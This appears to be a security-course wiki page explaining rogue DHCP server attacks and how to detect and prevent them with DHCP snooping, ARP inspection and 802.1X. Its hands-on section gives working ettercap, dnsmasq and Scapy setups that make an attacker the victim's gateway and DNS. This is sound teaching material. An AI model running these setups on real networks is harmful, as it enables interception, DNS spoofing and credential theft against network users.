

# Rogue DHCP Server

A **Rogue DHCP Server** is an unauthorized DHCP server placed on a network by an attacker (or introduced by accident through a misconfigured device) that answers client `DHCPDISCOVER` requests. By controlling the lease it hands out, the attacker dictates the victim's **default gateway (option 003)** and **DNS server (option 006)** — turning the rogue host into a **man-in-the-middle** for that client's traffic and name resolution.

> [!WARNING]
> **Authorized testing only**
> Only run these techniques on networks you own or are explicitly authorized to test. Injecting a DHCP server onto a production LAN is disruptive and, when unauthorized, illegal.

## Overview

DHCP has no authentication built into the protocol — a client trusts and accepts the **first** `DHCPOFFER` it receives, with no way to tell a legitimate server from a hostile one. A rogue server abuses exactly this trust. It participates in the normal [DORA-Process](DORA-Process.md) handshake but substitutes its own values for the gateway and resolver, so the victim voluntarily routes its off-subnet traffic and DNS queries through the attacker. It is one of the core attacks catalogued in [DHCP-Security-Issues-and-Attacks](DHCP-Security-Issues-and-Attacks.md), and it pairs naturally with a [DHCP-Starvation-Attack](DHCP-Starvation-Attack.md) that first silences the real server. The primary defense is switch-level [DHCP-Snooping](DHCP-Snooping.md).

## How It Works

DHCP has **no authentication**, and a client accepts the **first** `DHCPOFFER` it receives. On a shared segment the attacker therefore only needs to do one of the following:

1. **Win the race** — reply to `DHCPDISCOVER` faster than the legitimate server, or
2. **Remove the competition** — run a [DHCP-Starvation-Attack](DHCP-Starvation-Attack.md) first so the real server's pool is exhausted and it stops offering.

Once the victim accepts the rogue lease, every packet to an off-subnet destination is sent to the attacker's chosen gateway, and every name lookup goes to the attacker's chosen DNS server. The gateway ([option 003](DHCP-Scope-Options.md)) and DNS ([option 006](DHCP-Scope-Options.md)) values are the pivot point of the whole attack.

## Attack Flow

The rogue server hijacks the normal Discover/Offer/Request/Acknowledge exchange. When both servers hear the broadcast `DHCPDISCOVER`, whichever `DHCPOFFER` reaches the client first is the one the client commits to.



## Hands-On

> [!TIP]
> **Beat the real server reliably**
> To reliably out-race the legitimate server, combine any of the techniques below with a [DHCP-Starvation-Attack](DHCP-Starvation-Attack.md) so it has no addresses left to offer.

### Option A — Ettercap (built-in DHCP spoofer)

```bash
# Offer pool 192.168.1.100-150, push attacker as DNS, real gateway kept for stealth
sudo ettercap -T -q -i eth0 -M dhcp:192.168.1.100-150/255.255.255.0/192.168.1.1
```

Ettercap answers `DHCPDISCOVER`s and can be paired with its DNS-spoof plugin so the malicious DNS actually returns attacker IPs.

### Option B — dnsmasq (full rogue server + DNS in one)

```text
# /etc/dnsmasq-rogue.conf
interface=eth0
dhcp-range=192.168.1.100,192.168.1.200,1h
dhcp-option=3,192.168.1.66      # option 003: default gateway = attacker
dhcp-option=6,192.168.1.66      # option 006: DNS server     = attacker
```

```bash
sudo dnsmasq -C /etc/dnsmasq-rogue.conf -d      # -d = foreground/debug
# Enable forwarding so victims still reach the internet (stealth MITM):
sudo sysctl -w net.ipv4.ip_forward=1
```

### Option C — Scapy PoC (answer one DISCOVER)

```python3
from scapy.all import *

ATTACKER = "192.168.1.66"
POOL_IP  = "192.168.1.150"

def handle(pkt):
    if DHCP in pkt and pkt[DHCP].options[0][1] == 1:      # 1 = DISCOVER
        mac = pkt[Ether].src
        offer = (Ether(dst=mac)/IP(src=ATTACKER, dst="255.255.255.255")
                 /UDP(sport=67, dport=68)
                 /BOOTP(op=2, yiaddr=POOL_IP, siaddr=ATTACKER,
                        chaddr=pkt[BOOTP].chaddr, xid=pkt[BOOTP].xid)
                 /DHCP(options=[("message-type","offer"),
                                ("server_id", ATTACKER),
                                ("subnet_mask","255.255.255.0"),
                                ("router", ATTACKER),        # option 003
                                ("name_server", ATTACKER),   # option 006
                                ("lease_time", 3600), "end"]))
        sendp(offer, iface="eth0", verbose=0)

sniff(filter="udp and (port 67 or 68)", iface="eth0", prn=handle)
```

## Impact

Once the victim trusts the attacker as gateway and resolver, a range of follow-on attacks open up:

| Capability | How |
|---|---|
| Traffic interception (MITM) | Victim's default gateway (opt 003) = attacker |
| DNS spoofing / phishing | Victim's DNS (opt 006) = attacker-controlled resolver |
| Credential capture | MITM enables downgrade / cleartext capture and [NTLM](../Active-Directory-Domain-Services-AD-DS/NTLM.md)-relay setups |
| PXE boot hijack | Push option 066/067 to serve a malicious boot image (see [DHCP-Policies](DHCP-Policies.md)) |
| WPAD injection | Serve DNS / opt-252 pointing to a malicious `wpad.dat` proxy |

## Detection

- **Enumerate answering servers** and flag the unexpected one:

```bash
sudo nmap --script broadcast-dhcp-discover     # lists every server that OFFERs
sudo dhcpdump -i eth0                           # watch OFFER source IP/MAC
```

- **On a client**, check which server actually leased the IP:

```cmd
ipconfig /all | findstr "DHCP Server"
```

```bash
grep dhcp-server-identifier /var/lib/dhcp/dhclient.leases      # Linux
```

- **On the wire (Wireshark):** two different `dhcp.option.dhcp == 2` (OFFER) source IPs answering one `DHCPDISCOVER` = rogue present.

## Security Considerations

> [!WARNING]
> **A rogue lease is a full MITM foothold**
> A single accepted rogue lease hands the attacker the victim's **gateway and DNS** — enough to intercept, downgrade, and spoof all of that client's off-subnet traffic. Because DHCP is unauthenticated, the defense cannot live in the protocol; it must be enforced by the switching fabric ([DHCP-Snooping](DHCP-Snooping.md)) and complementary Layer-2 controls.

Defensive controls, from most to least effective:

| Control | Effect |
|---|---|
| **DHCP Snooping** | Only *trusted* switch ports may send OFFER/ACK — the primary defense. See [DHCP-Snooping](DHCP-Snooping.md) |
| Dynamic ARP Inspection (DAI) | Uses the snooping binding table to block the ARP spoofing MITM relies on |
| Port Security / 802.1X | Stops the unauthorized host from getting on the segment at all |
| VLAN segmentation | Limits the broadcast domain a rogue can reach |
| Monitoring | Alert on OFFERs from any non-approved server IP/MAC |

On a Windows/AD network, remember that DHCP servers must be **authorized in Active Directory** before the service will lease addresses — an unauthorized Windows DHCP server refuses to start, though this does *not* stop a non-Windows rogue.

## Best Practices

- Enable **DHCP snooping** on all access switches, marking only the uplink to the real DHCP server as trusted.
- Deploy **Dynamic ARP Inspection** and **IP Source Guard** alongside snooping to close the ARP-spoofing MITM path.
- Enforce **802.1X / port security** so unauthorized hosts never reach the segment.
- Segment the network with **VLANs** to shrink the broadcast domain any single rogue can influence.
- **Authorize DHCP servers in AD** and alert on `DHCPOFFER`s sourced from any IP/MAC that is not an approved server.

## Troubleshooting

| Symptom | Likely cause & fix |
| --- | --- |
| Clients get a gateway/DNS that differs from the real server | A rogue server won the race — check `ipconfig /all` for the DHCP Server identifier and enable [DHCP-Snooping](DHCP-Snooping.md) |
| Rogue OFFER never wins against the real server | Legitimate server replies faster; precede with a [DHCP-Starvation-Attack](DHCP-Starvation-Attack.md) to exhaust its pool |
| Victims lose internet after the rogue takes over | Attacker host is not forwarding — set `net.ipv4.ip_forward=1` for a stealth (pass-through) MITM |
| Snooping drops legitimate leases | The real server's uplink port is not marked *trusted* — trust only that port |

## References

- [RFC 2131 — Dynamic Host Configuration Protocol](https://www.rfc-editor.org/rfc/rfc2131)
- [DHCP overview (Microsoft Learn)](https://learn.microsoft.com/en-us/windows-server/networking/technologies/dhcp/dhcp-top)
- [Cisco — Configuring DHCP Snooping](https://www.cisco.com/c/en/us/td/docs/switches/lan/catalyst9300/software/release/17-x/configuration_guide/sec/b_17x_sec_9300_cg/configuring_dhcp_features_and_option_82.html)

## Related

- [DHCP-Starvation-Attack](DHCP-Starvation-Attack.md) — the setup that clears the way for a rogue server
- [DHCP-Security-Issues-and-Attacks](DHCP-Security-Issues-and-Attacks.md) — parent overview of DHCP attacks
- [DHCP-Snooping](DHCP-Snooping.md) — primary switch-level mitigation
- [DORA-Process](DORA-Process.md) — the handshake the rogue server hijacks
- [DHCP-Scope-Options](DHCP-Scope-Options.md) — options 003/006 the rogue overwrites
- [DHCP-Policies](DHCP-Policies.md) — conditional assignment / PXE options a rogue can abuse
- [NTLM](../Active-Directory-Domain-Services-AD-DS/NTLM.md) — relayed after a MITM foothold to capture credentials
- [Enterprise Windows Infrastructure Security](../Readme.md) — course hub
